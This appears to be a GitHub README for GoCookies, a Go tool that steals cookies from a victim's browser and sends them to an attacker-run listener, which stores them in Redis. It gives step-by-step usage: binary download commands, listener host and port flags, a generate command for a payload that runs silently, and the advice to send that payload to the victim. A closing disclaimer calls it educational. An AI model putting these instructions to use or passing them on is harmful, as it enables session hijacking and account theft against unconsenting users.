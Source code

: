 

# GoCookies - A Browser Cookie Stealer Written in Go

GoCookies is a tool for stealing cookies from a victim's browser and sending them to an attacker's machine. It is written in Go and has three components: `gocookies`, `gocookies-generate`, and `gocookies-listener`.

The `gocookies-generate` component generates a payload that can be sent to the victim. This payload steals the cookies from the victim's browser and sends them to the `gocookies-listener` component running on the attacker's machine. The `gocookies-listener` component receives the cookies and stores them in a Redis database running in a Docker container.

## Prerequisites

Before using GoCookies, you will need to have the following installed:

- Docker
- Go
- Git

## Getting Started

To get started with GoCookies, follow these steps:

1. Clone the repository:

```
git clone https://github.com/simonfalke-01/gocookies.git
```

2. Download the latest release:

For Linux:
```
curl https://github.com/simonfalke-01/gocookies/releases/latest/download/generate-linux -o generate && curl https://github.com/simonfalke-01/gocookies/releases/latest/download/listener-linux -o listener && chmod +x generate listener
```

For macOS:
```
curl https://github.com/simonfalke-01/gocookies/releases/latest/download/generate-macos -o generate && curl https://github.com/simonfalke-01/gocookies/releases/latest/download/listener-macos -o listener && chmod +x generate listener
```

Alternatively, you can download the binaries manually from the [releases](https://github.com/simonfalke-01/gocookies/releases/latest/) page.

## Generating a Payload

To generate a payload, use the `gocookies-generate` component. This component requires the following arguments:

- `-h` - The host of the listener.
- `-p` - The port of the listener.
- `-d` - The path of the `gocookies` directory.
- `-v` (optional) - Whether to print verbose output (by default, the payload does not print any output).

Example:

```
./generate -h localhost -p 8091 -d ~/gocookies/gocookies
```

Here, `~/gocookies` is the cloned repository.

Once the payload is generated, you can send it to the victim.

## Setting up the Listener

Before running the listener, ensure that the docker daemon is running. Then, pull the `redis` image:

```
docker image pull redis:alpine3.18
```

To set up the listener, use the `gocookies-listener` component. This component requires the following arguments:

- `-r` - The port on which Redis will be running.
- `-p` - The port on which the listener will be running.
- `-e` (optional) - Whether to use an existing Redis container (if not specified, a new Redis container will be created). If specified, `-r` will be the port of the existing Redis container.

Example:

```
./listener -r 8090 -p 8091
```

Once the listener is set up, you can wait for the victim to connect to it and send the cookies.

## Building from Source

To build `gocookies-generate` from source, navigate to the `gocookies-generate` directory and run:

```
go build
```

To build `gocookies-listener` from source, navigate to the `gocookies-listener` directory and run:

```
go build
```

## Disclaimer

This tool is for educational purposes only. Using this tool without the consent of the victim is illegal and unethical. The author of this tool is not responsible for any illegal or unethical use of this tool.
